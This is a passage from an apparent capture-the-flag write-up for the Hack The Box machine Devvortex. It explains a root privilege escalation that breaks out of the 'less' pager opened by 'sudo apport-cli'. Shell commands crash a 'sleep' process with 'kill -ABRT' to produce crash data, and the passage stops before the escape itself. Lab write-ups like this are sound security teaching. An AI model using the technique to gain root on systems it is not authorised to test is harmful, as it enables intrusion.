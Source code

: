 This is very similar to the vulnerability I exploited in [Sau](/2024/01/06/htb-sau.html#exploit-less) where `systemctl` opened in `less` and I could break out.

#### Strategy

To exploit this vulnerability, I’ll need to give `apport-cli` crash data to view, and then when it shows the report in `less`, break out to a shell. I’ll show three different ways to generate crash data:

```

flowchart TD;
    A[sudo apport-cli]-->B(<a href='#crash-sleep'>Start and crash\na program with\nkill -ABRT</a>);
    B-->C(<a href='#view-and-escape'>View data in apportcli</a>);
    C-->D[Break out to root shell];
    A-->E(<a href='#with-apport-cli'>Generate data\nwith apport-cli</a>);
    E-->C;
    A-->F(<a href='#fake-data'>Create fake\ndata);
    F-->C;

linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;

```

#### Crash sleep

To exploit this, I’ll need something legit to read. The easiest way is to just generate a dump file. I’ll start program running in the background:

```

logan@devvortex:~$ sleep 20 &
[1] 7650

```

`&` tells the OS to run the program in the background, and return focus to the shell. 7650 is the process id (PID) for that process. I’ll send a signal to that process to crash it with `kill -ABRT`:

```

logan@devvortex:~$ kill -ABRT 7650
logan@devvortex:~$ 
[1]+  Aborted                 (core dumped) sleep 20

```

The command returns (after sending the signal) and prints the next prompt, and after a slight delay, when the `sleep` process dies, it prints to the terminal. Now there’s a dump file in `/var/crash`:

```

logan@devvortex:~$ ls /var/crash/
_usr_bin_sleep.1000.crash

```
